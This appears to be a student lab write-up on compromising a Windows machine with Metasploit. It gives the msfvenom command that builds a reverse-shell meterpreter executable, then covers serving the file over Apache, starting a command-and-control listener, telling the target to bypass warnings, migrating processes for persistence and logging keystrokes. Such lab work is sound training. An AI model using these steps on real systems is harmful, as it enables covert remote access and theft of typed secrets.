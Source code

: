 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
## PROGRAM:

Find the attackers ip address using ifconfig

## OUTPUT:
![image](https://github.com/Bharath745/Compromising-windows-using-Metasploit/assets/94508354/380c5c86-5104-4e5d-8227-3e204e09c34c)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:
![image](https://github.com/Bharath745/Compromising-windows-using-Metasploit/assets/94508354/5b059106-b66e-44c9-a916-259bc7dcafa3)


copy the fun.exe into the apache /var/www/html folder

## OUTPUT:
![image](https://github.com/Bharath745/Compromising-windows-using-Metasploit/assets/94508354/4823490b-dada-4df0-8328-5034db68f512)



Start apache server
sudo systemctl apache2 start

## OUTPUT:
![image](https://github.com/Bharath745/Compromising-windows-using-Metasploit/assets/94508354/95013789-b3a0-4846-a536-f98d7eababee)


Check the status of apache2

## OUTPUT:
![image](https://github.com/Bharath745/Compromising-windows-using-Metasploit/assets/94508354/9e155838-2d7e-4a3a-9943-ec1e03ed4ceb)



## Invoke msfconsole:

## OUTPUT:
![image](https://github.com/Bharath745/Compromising-windows-using-Metasploit/assets/94508354/611dab41-271b-41c4-963c-79ab268f5ba0)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

## OUTPUT:
![image](https://github.com/Bharath745/Compromising-windows-using-Metasploit/assets/94508354/75693553-5d75-43cc-baee-9872612ac782)



Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

## OUTPUT:
![image](https://github.com/Bharath745/Compromising-windows-using-Metasploit/assets/94508354/21c67f07-6fb5-41e5-be7b-308875d7c7fb)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.

## OUTPUT:
![image](https://github.com/Bharath745/Compromising-windows-using-Metasploit/assets/94508354/44115e3b-1f5d-439c-9272-1a31f3a4fc51)



Bypass any warning boxes, double-click the file, and allow it to run.

## OUTPUT:
![image](https://github.com/Bharath745/Compromising-windows-using-Metasploit/assets/94508354/0a8cd3b5-ebab-41ee-80bc-d6e49085e65b)


On kali give the command exploit

## OUTPUT:
![image](https://github.com/Bharath745/Compromising-windows-using-Metasploit/assets/94508354/0b042926-68d1-4ed8-a72a-d29a18c84d9d)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

## OUTPUT:
![image](https://github.com/Bharath745/Compromising-windows-using-Metasploit/assets/94508354/b00f6031-f1f3-4e18-afac-c0ca46254fb2)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

## OUTPUT:
![image](https://github.com/Bharath745/Compromising-windows-using-Metasploit/assets/94508354/7611f8c4-36a1-431f-9944-3017871507fc)

## Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

## OUTPUT:
![image](https://github.com/Bharath745/Compromising-windows-using-Metasploit/assets/94508354/5d233f8a-9732-4799-ac68-57d026b1c955)

![image](https://github.com/Bharath745/Compromising-windows-using-Metasploit/assets/94508354/f5cbcf74-46e4-4b9f-ab0c-48a39f88d06d)

keyscan_dump	Shows the keystrokes captured so far

## OUTPUT:
![image](https://github.com/Bharath745/Compromising-windows-using-Metasploit/assets/94508354/74ba8d8e-077e-4033-93f2-05728297d785)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
